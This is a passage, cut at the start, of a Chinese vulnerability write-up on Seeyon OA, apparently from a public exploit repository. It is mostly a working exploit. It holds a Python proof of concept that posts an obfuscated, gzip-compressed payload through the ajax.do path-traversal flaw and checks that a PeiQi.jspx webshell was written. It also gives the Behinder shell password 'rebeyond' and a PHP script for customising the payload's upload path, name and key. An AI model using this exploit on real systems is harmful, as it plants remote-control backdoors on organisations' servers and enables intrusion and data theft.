C2%B3%04%1E%C2%BEt%C2%8E%C2%87%C3%85%C3%97%C3%A7%C2%8FK%C3%A2%C3%A3%C2%9E%C3%A97%0C%C2%8Ez%1F%C3%81%C3%BFO%17%C3%A08%C3%B5%C2%A8c%3F%C2%BE%C3%97%7B%C2%90%12%C3%90%3B1i%C3%A6d%080eY%C3%B6%1E%5E%C2%BB%3F%C3%A8r%C2%A4%0B%C3%B2%C2%B5%C2%BE%C2%B3K%C3%AEu%C3%BF%C3%BE%17%1CR%C2%AD%17W%05%00%00");
$webshell = iconv("UTF-8","ISO-8859-1",$webshell);
$webshell = gzdecode($webshell);

/* 自行更改脚本自定义上传位置,webshell名字,冰蝎密码 */
$webshell = str_replace("../webapps/seeyon/","../webapps/seeyon/",$webshell);
$webshell = str_replace("PeiQi.jspx","PeiQi.jspx",$webshell);
$webshell = str_replace("e45e329feb5d925b","e45e329feb5d925b",$webshell);

$webshell = gzencode($webshell);
$webshell = iconv("ISO-8859-1","UTF-8" ,$webshell);
$webshell = urlencode("$webshell");
echo $webshell;

?>
```

```
{
  "message": "被迫下线，原因：与服务器失去连接",
  "code": "-1",
  "details": null
}
```

上传后请求 webshell 地址，访问返回出现如下图则成功写入



> **Note**
> 
> 访问状态码为 200 成功
> 
> 访问状态码为 404 失败

使用冰蝎连接:**rebeyond**  



**漏洞利用 POC**
------------

```
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: 致远OA 多个版本                                             \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')
def POC_1(target_url):
    vuln_url_2 = target_url + "/seeyon/autoinstall.do.css/..;/ajax.do?method=ajaxAction&manager
    print('\033[36m[o] 正在请求: {}'.format(vuln_url_2))
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
    }
    data = "managerMethod=validate&arguments=%1F%C2%8B%08%00%00%00%00%00%00%0AuTK%C2%93%C2%A2H%10%3E%C3%AF%C3%BE%0A%C3%82%C2%8Bv%C3%B4%C2%8C%C2%8D+c%C2%BB%13%7Bh_%C2%88%28%2A%28%C2%AF%C2%8D%3D%40%15Ba%15%C2%B0%C3%B2%10%C3%AC%C2%98%C3%BF%C2%BE%05%C3%98%C3%93%3D%C2%B1%C2%BDu%C2%A9%C3%8C%C2%AC%C3%8C%C2%AF%C3%B2%C3%BD%C3%97k%C3%B7%14_H%C2%8E%C2%9DC%C2%95x%C3%9D%3F%C2%98%C3%81%17%C3%A6M%C2%A28%C2%A4%C2%96t3%2F%C3%8D%C2%BA%C3%AF%C3%A2y%C2%99%5C%C2%BC4EqT%3Fj%C3%99%05E%3E%C2%938Y%C3%80%C3%BC%C3%89t%C3%BA%C3%BD%C2%A7%C2%AB%C3%A7%3AI%C2%92%3E%C2%A5%C2%9EW%C3%85%C3%91S%C3%A7%C3%BB%C3%AFL%7B%7E%0B%C2%9D%C3%82%C3%A9%C2%A3%C2%B8%C2%BF%C2%A3%26%C2%99qA%C2%99wa%C2%92w%C2%9A%C2%A3%00%C2%91we%3EQ%C3%AB%C3%95%C3%B8%C2%8F%C2%9D%C2%9D%C2%87%C3%B6%C2%A8%1F%C2%A6I%C3%99y%C3%B8%09%C3%8B%C3%9C%5DH%03%0F%C3%A3%C3%9A%C2%87%C2%9D%C2%98%C3%9C%C3%80%2C%C2%A9%5Cn%C3%8CJ%C3%8B+sE%C3%A1%C2%B6%25%C2%B5%C2%8CE%C3%8ERe%C3%81%2C.%C3%96%5C%12%402%C3%8F%01%C2%AF%C3%A7k%C2%A2%14%C2%AE6%C2%96%C2%8F%C2%83%C2%97%C3%A2%28.%22%5B%C2%93%7CH%C3%B4%0Ap%C2%B8pC%16m%C2%B4a%25%C2%85%C3%83g%27R%C2%AE%5B%C2%A2%26%C2%80%C3%A8%21%141gk%C3%82%C3%952+%C2%96D%C2%9C%01q%5C%C3%81%1A%C2%9F%2C8K%13%06%C3%B4%3D%5D%C2%A38mx%C3%93%C3%8F-%7E%25%C2%80%C2%A5Z%7C%2A%C2%A3%C2%B8%C2%B6%C2%B1%C3%89e%24%15%C2%BB%C2%B0%C3%BC%07%C3%B0%2F%C3%9FlQ%0F%5DqQY%C2%A6%C2%9A%C2%B8%C3%9C%C3%B0Q%12%C2%95%C3%942%C2%95%C2%9B%C2%B48%C3%BA%C2%B6%19%C2%B0%C2%B6%21%C2%9CA5%C2%99Q%C2%9D%1B%60%C3%8B%C3%822T%0C%C2%A2L%C2%97%C3%A7%C2%AD%C3%9EA%1C%07%14%C2%A3%C2%92%C3%84M%C3%A2%C3%B1%C3%8A%00PZ%C2%A6%C3%B4%C2%96%1F%5C%C2%A1%C2%B1J%1Dc%C3%A3%C3%AF%C2%B92%00%C3%BC%C3%86%C2%B7%C2%AB%00y%C2%A6%C2%8A%C2%A5E%06-%C2%84G4%3E%16%C2%9A%C2%AB%5CZ%C2%B6vk%C2%A2b%C2%9B%C3%A0%C3%9C%3E%C2%B6%C3%98%C2%B2%28%C2%A5%C2%9Bi%C2%89%C3%96%C2%A4%C3%84.%C2%81%C2%AC3%3D%C2%8FN%26%C3%BBLsZ%C3%A7%C3%BDl%1B%C2%B5%C3%9E%2A%C2%A09%C2%A0%C3%B9%C2%BB%C3%A7-RB%40%C3%B0%15%C2%8A%25%C2%863%C3%A1%00%C2%97%C2%AB%C3%84%25%C3%80wn%2C%C2%B2%0F%C3%BB%C2%81%7D%C3%98T%5B%C3%83%C3%86V%C2%A8%C2%9F%C2%B7%07i%60%21i%048%C3%BD%C3%96%C3%94%00%09Wh%C2%AA%C2%86e%C2%94%03%5B%C3%B3%11%C3%94%C2%A4%C3%94%C2%A9%C3%8E%C2%A3%3D%C2%87%C2%AFN%1B%C3%A3%C3%B8%C2%8D%5E%13%C2%88%C3%A1%1C%C3%93%C2%BA%C2%AA%C2%81K%14%2COW%13U%C3%9F+%C3%B9%C2%90%C2%85k%1A%C2%83c%C3%AE%C3%A3%0D%2As%C3%9B%04%C3%BE%C2%91%C3%93%C3%83%3AV%C2%8D%C3%93%C2%85%23%3F%C3%81V%C3%A5%C3%87%1F%C3%BE%C2%8C%C3%AC_%C3%BFL%C3%A4JB%C2%B2%C3%96%C3%88%C2%A7u%C2%BE%40%C3%A5%27%C3%AB7%7C%C3%AD%3Cr%C2%89%C3%8E%C3%93%C3%BA%C3%84P%0C%12P5zm%7Dj%C2%BD%C3%86%C2%AF_k%23O%C3%8FT%0Eb%C2%AB%12%C3%8E.k%C3%93%7C%2CRY%140%C2%AC%267h%0Cs%C3%97%C3%807%C3%BA6%C3%9D%C3%AB%C3%8AB%09%C3%959%C3%8Dkq%C2%B7%C3%8B%C2%9B%C3%BE%C3%A0T%C2%BC%C2%8Ftb%C3%93%5E%C2%95%C2%97%2B%0CL%1D%03%7E%C2%9F%C3%9B%C2%9C%C3%8E%1E%C2%89%C3%BE%C3%B6G%0Ej%C2%9AN%C2%ADK%C2%8E1%C3%B53%C2%A11%C3%90%C3%B8%C3%A1%C3%8A%C2%8D%14%C3%962%C2%84%C2%90%C3%86G%C3%BD%C3%90Kh%2CRP%05MO%C3%AF%C2%B9q%0EE%7D%08imw%C3%93q%C3%93%C2%93%C2%80S%2A%C3%87%C2%9C%C2%B0%C2%AE%C2%A8%C2%B3%C2%BB%C3%B0Z%C2%B4u%5D%15.%C2%BF%7F%7C%C2%9Fr%26%C3%8D%C2%A3%3EA%29%C3%A8O%5E%C2%B4%C3%B9%C2%B7%C3%A1%C3%8C%031%C2%A4%C2%83%0E%C3%AFw%3B%C3%A3%C2%9F%2B%C3%B5%C3%BE%3B%C3%95%C2%AD%C3%99%C2%9Dim%5B%C2%A6w%07%C3%AC%C2%B7%C3%B7%24%3F%C2%9D%28%40%C2%B3%04%1E%C2%BEt%C2%8E%C2%87%C3%85%C3%97%C3%A7%C2%8FK%C3%A2%C3%A3%C2%9E%C3%A97%0C%C2%8Ez%1F%C3%81%C3%BFO%17%C3%A08%C3%B5%C2%A8c%3F%C2%BE%C3%97%7B%C2%90%12%C3%90%3B1i%C3%A6d%080eY%C3%B6%1E%5E%C2%BB%3F%C3%A8r%C2%A4%0B%C3%B2%C2%B5%C2%BE%C2%B3K%C3%AEu%C3%BF%C3%BE%17%1CR%C2%AD%17W%05%00%00"
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.post(url=vuln_url_2, headers=headers, data=data, verify=False)
    test_webshell(target_url)
def test_webshell(target_url):
    webshell_url = target_url + "/seeyon/PeiQi.jspx"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=webshell_url, timeout=10, verify=False, headers=headers)
        print("\033[32m[o] 正在请求 : {}/seeyon/PeiQi.jspx\033[0m".format(target_url))
        if response.status_code == 200:
            print("\033[32m[o] 目标 {} 成功上传 webshell : {}/seeyon/PeiQi.jspx\033[0m".format(target_url,target_url))
            print("\033[32m[o] webshell地址：{}/seeyon/PeiQi.jspx \033[0m".format(target_url))
            print("\033[32m[o] 冰蝎3默认马 pass ：rebeyond \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标漏洞无法利用，写入失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 目标漏洞无法利用，写入失败 {} \033[0m".format(e))
        sys.exit(0)
if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```



文件编码脚本, 自行进行自定义调试

```
<?php 
$webshell = urldecode("%1F%C2%8B%08%00%00%00%00%00%00%0AuTK%C2%93%C2%A2H%10%3E%C3%AF%C3%BE%0A%C3%82%C2%8Bv%C3%B4%C2%8C%C2%8D+c%C2%BB%13%7Bh_%C2%88%28%2A%28%C2%AF%C2%8D%3D%40%15Ba%15%C2%B0%C3%B2%10%C3%AC%C2%98%C3%BF%C2%BE%05%C3%98%C3%93%3D%C2%B1%C2%BDu%C2%A9%C3%8C%C2%AC%C3%8C%C2%AF%C3%B2%C3%BD%C3%97k%C3%B7%14_H%C2%8E%C2%9DC%C2%95x%C3%9D%3F%C2%98%C3%81%17%C3%A6M%C2%A28%C2%A4%C2%96t3%2F%C3%8D%C2%BA%C3%AF%C3%A2y%C2%99%5C%C2%BC4EqT%3Fj%C3%99%05E%3E%C2%938Y%C3%80%C3%BC%C3%89t%C3%BA%C3%BD%C2%A7%C2%AB%C3%A7%3AI%C2%92%3E%C2%A5%C2%9EW%C3%85%C3%91S%C3%A7%C3%BB%C3%AFL%7B%7E%0B%C2%9D%C3%82%C3%A9%C2%A3%C2%B8%C2%BF%C2%A3%26%C2%99qA%C2%99wa%C2%92w%C2%9A%C2%A3%00%C2%91we%3EQ%C3%AB%C3%95%C3%B8%C2%8F%C2%9D%C2%9D%C2%87%C3%B6%C2%A8%1F%C2%A6I%C3%99y%C3%B8%09%C3%8B%C3%9C%5DH%03%0F%C3%A3%C3%9A%C2%87%C2%9D%C2%98%C3%9C%C3%80%2C%C2%A9%5Cn%C3%8CJ%C3%8B+sE%C3%A1%C2%B6%25%C2%B5%C2%8CE%C3%8ERe%C3%81%2C.%C3%96%5C%12%402%C3%8F%01%C2%AF%C3%A7k%C2%A2%14%C2%AE6%C2%96%C2%8F%C2%83%C2%97%C3%A2%28.%22%5B%C2%93%7CH%C3%B4%0Ap%C2%B8pC%16m%C2%B4a%25%C2%85%C3%83g%27R%C2%AE%5B%C2%A2%26%C2%80%C3%A8%21%141gk%C3%82%C3%952+%C2%96D%C2%9C%01q%5C%C3%81%1A%C2%9F%2C8K%13%06%C3%B4%3D%5D%C2%A38mx%C3%93%C3%8F-%7E%25%C2%80%C2%A5Z%7C%2A%C2%A3%C2%B8%C2%B6%C2%B1%C3%89e%24%15%C2%BB%C2%B0%C3%BC%07%C3%B0%2F%C3%9FlQ%0F%5DqQY%C2%A6%C2%9A%C2%B8%C3%9C%C3%B0Q%12%C2%95%C3%942%C2%95%C2%9B%C2%B48%C3%BA%C2%B6%19%C2%B0%C2%B6%21%C2%9CA5%C2%99Q%C2%9D%1B%60%C3%8B%C3%822T%0C%C2%A2L%C2%97%C3%A7%C2%AD%C3%9EA%1C%07%14%C2%A3%C2%92%C3%84M%C3%A2%C3%B1%C3%8A%00PZ%C2%A6%C3%B4%C2%96%1F%5C%C2%A1%C2%B1J%1Dc%C3%A3%C3%AF%C2%B92%00%C3%BC%C3%86%C2%B7%C2%AB%00y%C2%A6%C2%8A%C2%A5E%06-%C2%84G4%3E%16%C2%9A%C2%AB%5CZ%C2%B6vk%C2%A2b%C2%9B%C3%A0%C3%9C%3E%C2%B6%C3%98%C2%B2%28%C2%A5%C2%9Bi%C2%89%C3%96%C2%A4%C3%84.%C2%81%C2%AC3%3D%C2%8FN%26%C3%BBLsZ%C3%A7%C3%BDl%1B%C2%B5%C3%9E%2A%C2%A09%C2%A0%C3%B9%C2%BB%C3%A7-RB%40%C3%B0%15%C2%8A%25%C2%863%C3%A1%00%C2%97%C2%AB%C3%84%25%C3%80wn%2C%C2%B2%0F%C3%BB%C2%81%7D%C3%98T%5B%C3%83%C3%86V%C2%A8%C2%9F%C2%B7%07i%60%21i%048%C3%BD%C3%96%C3%94%00%09Wh%C2%AA%C2%86e%C2%94%03%5B%C3%B3%11%C3%94%C2%A4%C3%94%C2%A9%C3%8E%C2%A3%3D%C2%87%C2%AFN%1B%C3%A3%C3%B8%C2%8D%5E%13%C2%88%C3%A1%1C%C3%93%C2%BA%C2%AA%C2%81K%14%2COW%13U%C3%9F+%C3%B9%C2%90%C2%85k%1A%C2%83c%C3%AE%C3%A3%0D%2As%C3%9B%04%C3%BE%C2%91%C3%93%C3%83%3AV%C2%8D%C3%93%C2%85%23%3F%C3%81V%C3%A5%C3%87%1F%C3%BE%C2%8C%C3%AC_%C3%BFL%C3%A4JB%C2%B2%C3%96%C3%88%C2%A7u%C2%BE%40%C3%A5%27%C3%AB7%7C%C3%AD%3Cr%C2%89%C3%8E%C3%93%C3%BA%C3%84P%0C%12P5zm%7Dj%C2%BD%C3%86%C2%AF_k%23O%C3%8FT%0Eb%C2%AB%12%C3%8E.k%C3%93%7C%2CRY%140%C2%AC%267h%0Cs%C3%97%C3%807%C3%BA6%C3%9D%C3%AB%C3%8AB%09%C3%959%C3%8Dkq%C2%B7%C3%8B%C2%9B%C3%BE%C3%A0T%C2%BC%C2%8Ftb%C3%93%5E%C2%95%C2%97%2B%0CL%1D%03%7E%C2%9F%C3%9B%C2%9C%C3%8E%1E%C2%89%C3%BE%C3%B6G%0Ej%C2%9AN%C2%ADK%C2%8E1%C3%B53%C2%A11%C3%90%C3%B8%C3%A1%C3%8A%C2%8D%14%C3%962%C2%84%C2%90%C3%86G%C3%BD%C3%90Kh%2CRP%05MO%C3%AF%C2%B9q%0EE%7D%08imw%C3%93q%C3%93%C2%93%C2%80S%2A%C3%87%C2%9C%C2%B0%C2%AE%C2%A8%C2%B3%C2%BB%C3%B0Z%C2%B4u%5D%15.%C2%BF%7F%7C%C2%9Fr%26%C3%8D%C2%A3%3EA%29%C3%A8O%5E%C2%B4%C3%B9%C2%B7%C3%A1%C3%8C%031%C2%A4%C2%83%0E%C3%AFw%3B%C3%A3%C2%9F%2B%C3%B5%C3%BE%3B%C3%95%C2%AD%C3%99%C2%9Dim%5B%C2%A6w%07%C3%AC%C2%B7%C3%B7%24%3F%C2%9D%28%40%C2%B3%04%1E%C2%BEt%C2%8E%C2%87%C3%85%C3%97%C3%A7%C2%8FK%C3%A2%C3%A3%C2%9E%C3%A97%0C%C2%8Ez%1F%C3%81%C3%BFO%17%C3%A08%C3%B5%C2%A8c%3F%C2%BE%C3%97%7B%C2%90%12%C3%90%3B1i%C3%A6d%080eY%C3%B6%1E%5E%C2%BB%3F%C3%A8r%C2%A4%0B%C3%B2%C2%B5%C2%BE%C2%B3K%C3%AEu%C3%BF%C3%BE%17%1CR%C2%AD%17W%05%00%00");
$webshell = iconv("UTF-8","ISO-8859-1",$webshell);
$webshell = gzdecode($webshell);
/* 自行更改脚本自定义上传位置,webshell名字,冰蝎密码 */
$webshell = str_replace("../webapps/seeyon/","../webapps/seeyon/",$webshell);
$webshell = str_replace("PeiQi.jspx","PeiQi.jspx",$webshell);
$webshell = str_replace("e45e329feb5d925b","e45e329feb5d925b",$webshell);
$webshell = gzencode($webshell);
$webshell = iconv("ISO-8859-1","UTF-8" ,$webshell);
$webshell = urlencode("$webshell");
echo $webshell;
?>
```



---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
